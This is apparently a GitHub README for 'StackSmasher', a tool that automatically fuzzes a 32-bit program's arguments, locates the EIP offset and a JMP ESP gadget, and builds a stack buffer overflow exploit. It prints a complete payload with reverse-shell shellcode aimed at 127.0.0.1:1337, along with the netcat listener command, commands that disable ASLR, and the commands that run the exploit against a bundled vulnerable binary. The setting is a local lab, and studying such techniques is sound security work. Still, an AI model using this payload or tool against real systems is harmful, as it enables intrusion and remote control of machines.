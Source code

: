 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions.

Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payload vulnerable
```

Example Output:
```sh
[-] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[+] python -c 'print("\x41...\x41\x41\xfe\x61\x55\x56\x90\x90...\x90\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xd3\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x00")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41...\x41\x41\xfe\x61\x55\x56\x90\x90...\x90\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xd3\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payload vulnerable)
```
